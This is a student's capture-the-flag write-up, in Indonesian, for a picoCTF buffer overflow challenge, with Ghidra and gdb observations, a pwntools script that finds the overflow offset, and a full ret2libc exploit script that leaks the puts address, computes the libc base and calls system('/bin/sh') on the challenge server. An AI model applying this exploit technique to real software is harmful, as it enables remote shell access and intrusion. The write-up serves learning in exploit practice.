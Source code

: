 Write Up Here a Libc

Nama: Fachry Altair Gantari Amaludin
NIM: 2602109366

Step pertama yang saya coba adalah dengan menjalankan program dengan connect ke remote server yang disediakan. 

<div align="center">
  <img src="https://github.com/user-attachments/assets/14bdca32-f80e-4890-bba7-7003b082a89b">
</div>
</br>

Dari foto di atas, saya mengetahui bahwa program ini merubah input text yang dimasukkan oleh user menjadi uppercase di huruf yang ganjil dan lowercase di huruf yang genap.

Lalu, saya mencoba untuk membuka program dengan Ghidra. Pada fungsi main, saya mengetahui bahwa dia memanggil fungsi do_stuff() yang disimpan dalam do while.

<div align="center">
  <img src="https://github.com/user-attachments/assets/95b39820-4de7-47ac-b831-de0a515656be">
</div>
</br>

Berikut adalah fungsi do_stuff():

<div align="center">
  <img src="https://github.com/user-attachments/assets/b38a0f05-93f1-4229-a819-50d661c9cafd">
</div>
</br>

Berdasarkan decompiled code fungsi do_stuff(), ada kemungkinan buffer overflow pada fungsi scanf pertama yang ini adalah input dari user dengan buffer 112 dari local_88. Lalu, pada for loop, huruf yang di convert_case hanya sampai < 100.

Saat saya mencoba input string random untuk mencoba buffer overflow, terjadi segmentation fault.

<div align="center">
  <img src="Screenshot 2024-11-28 021056](https://github.com/user-attachments/assets/c01e2b64-54ad-4c78-b61f-fb9b7ab44a79">
</div>
</br>

Selanjutnya saya mencoba untuk menjalankan di gdb dengan cara yang sama dengan foto di atas. Awalnya saya bingung karena sudah lebih banyak dari buffer (112) tapi nilai di rip belum berubah.

<div align="center">
  <img src="https://github.com/user-attachments/assets/e50750d4-2653-4911-b511-e9df98805054">
</div>
</br>

Karena saya skill issue dan bingung kenapa saat saya menggunakan gdb gef tidak berubah juga rip nya (mungkin payload nya salah atau kurang panjang) dan tidak menemukan offset, saya mencari write up di Youtube dan meminta bantuan ChatGPT. Berdasarkan GPT dan video di Youtube, saya akhirnya menggunakan pwntools cyclic untuk menemukan offset dari buffer overflow yang ingin dilakukan. Berikut code nya:

```python
from pwn import *

binary = './vuln'
elf = ELF(binary)
context.binary = binary

p = process(binary)

payload = cyclic(200)
p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!', payload)

p.wait()
core = p.corefile

offset = cyclic_find(core.read(core.rsp, 4))
log.info(f"Offset found: {offset}")
```

Saya menjalankan scriptnya di kali linux karena di windows ternyata error dan harus di linux. Ini offsetnya:

<div align="center">
  <img src="https://github.com/user-attachments/assets/03b0e75b-3745-46fc-b81d-87cd27fa54e3">
</div>
</br>

Note: Saya ingin jujur ko, di step yang akan dijelaskan selanjutnya, saya mengikuti bantuan ChatGPT terutama dalam pembuatan script.

Selanjutnya, setelah mengetahui offset, saya mencari address dari fungsi-fungsi yang ada di libc. Tujuan akhir alamat yang ingin diambil adalah alamat fungsi system. Selain fungsi, string /bin/sh juga saya cari untuk menjalankan shell di remote server.

Saya dengan bantuan ChatGPT membuat script untuk eksploitasi.

```python
from pwn import *

binary = './vuln'  # Nama binary
libc_path = './libc.so.6'  # Nama file libc
elf = ELF(binary)
libc = ELF(libc_path)

# Alamat puts sama main
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

offset = 136

# Remote server
host = 'mercury.picoctf.net'
port = 49464

# Fungsi untuk memulai koneksi
def start():
    if args.REMOTE:
        return remote(host, port)
    else:
        return process(binary, env={"LD_PRELOAD": libc_path})

# Fungsi untuk leak alamat libc
def leak_libc_address(proc, func_got):
    log.info(f"Leaking {func_got} address...")
    rop = ROP(elf)
    rop.call(puts_plt, [func_got])  # Cetak alamat fungsi di GOT
    rop.call(main_addr)  # Kembali ke fungsi main untuk eksploitasi ulang
    
    payload = flat({offset: rop.chain()})
    proc.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload)
    leaked_address = u64(proc.recvline().strip().ljust(8, b'\x00'))
    log.success(f"Leaked {func_got} address: {hex(leaked_address)}")
    return leaked_address

# Fungsi eksploitasi untuk mendapatkan shell
def exploit(proc):
    # Leak libc puts address
    libc_puts = leak_libc_address(proc, puts_got)

    # Hitung base address libc
    libc_base = libc_puts - libc.symbols['puts']
    log.success(f"Libc base address: {hex(libc_base)}")

    # Hitung alamat "/bin/sh" dan system
    system_addr = libc_base + libc.symbols['system']
    bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

    log.info(f"System address: {hex(system_addr)}")
    log.info(f"/bin/sh address: {hex(bin_sh_addr)}")

    # ROP chain untuk mendapatkan shell
    rop = ROP(elf)
    rop.call(system_addr, [bin_sh_addr])

    payload = flat({offset: rop.chain()})
    proc.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload)

    proc.interactive()

if __name__ == "__main__":
    context.binary = elf

    p = start()
    exploit(p)
```








